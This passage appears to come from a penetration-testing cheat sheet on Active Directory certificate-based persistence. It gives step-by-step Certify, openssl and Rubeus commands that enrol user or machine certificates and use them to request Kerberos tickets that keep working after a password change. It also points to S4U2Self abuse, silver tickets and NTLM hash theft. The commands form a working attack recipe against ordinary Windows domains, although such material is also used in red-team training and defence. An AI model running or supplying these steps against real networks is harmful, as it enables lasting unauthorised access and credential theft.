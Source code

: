 
## Persistence via Certificates



### User Persistence (PERSIST1)

Find certificate templates available for enrollment for the current user:

```
Cmd > .\Certify.exe find /clientauth
```

Search for any template that allows domain authentication (a stock published template that allows client authentication is the `User` template).

Request a new certificate for enrolling current user context:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:User
```

This will output a certificate and private key in `.pem`. To convert it to `.pfx` compatible with Rubeus do:

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

After that an adversary can upload it to target and use Rubeus to request a valid TGT, for as long as the certificate is valid (default certificate lifetime is one year):

```
Cmd > .\Rubeus.exe asktgt /user:snovvcrash /certificate:C:\Temp\cert.pfx /password:Passw0rd!
```

This approach will work *even if the user changes their password*. Combined with the **THEFT5** technique, an adversary can also persistently obtain the account's NTLM hash.



### Machine Persistence (PERSIST2)

Same as for **PERSIST1** but requesting a certificate for enrolling current machine context:

```
# While elevated
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:Machine /machine
```

With access to a machine account certificate an adversary can use S4U2Self to obtain a Kerberos ticket to any service on the host (see [RBCD Abuse](/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd)) or generate a silver ticket.



### Certificate Renewal

* Certificate template **validity period** - determines how long an issued certificate can be used.
* Certificate template **renewal period** - determines a window of time *before the certificate expires* where an account can renew it from the issuing certificate authority.
